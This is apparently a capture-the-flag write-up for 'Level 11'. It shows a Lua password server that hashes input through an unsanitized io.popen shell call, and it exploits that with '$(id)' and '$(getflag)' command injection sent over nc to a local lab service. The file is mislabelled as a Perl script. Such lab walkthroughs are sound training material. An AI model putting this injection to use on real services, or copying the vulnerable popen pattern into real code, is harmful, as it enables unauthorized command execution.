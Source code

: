 # Level 11

## Initial Context

- A single file: `level11.lua`

## Solving the Challenge

### Analyzing

There is only a single CGI perl script:

```perl
$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

#### Reverse approach

The program seems to ask for a password, and then compare it with a SHA1.

Using Google's first search result, [md5hashing.net](https://md5hashing.net/hash/sha1/f05d1d066fb246efe0c6f7d095f909a7a0cf34a0) has a match.

![Match](images/match.png)

But using it as the `flag11`'s password does not works.

#### Concat approach

The program concat the password without doing any sanitization.

```perl
io.popen("echo "..pass.." | sha1sum", "r")
```

So by sending a subshell, we should be able to execute a command. But since everything is piped to a `sha1sum` command, we need to find a way to write in a file the result. That why `tee` is used: it can write the input it gets to a file and to the standard output. After that, we can simply read what he wrote in the file.

```bash
$ echo '$(id) | tee /tmp/level11' | nc 127.0.0.1 5151 && cat /tmp/level11
Password: Erf nope..
uid=3011(flag11) gid=3011(flag11) groups=3011(flag11),1001(flag)
```

Confirmed! Now the `getflag` command:

```bash
$ echo '$(getflag) | tee /tmp/level11' | nc 127.0.0.1 5151 && cat /tmp/level11
Password: Erf nope..
Check flag.Here is your token : ....
```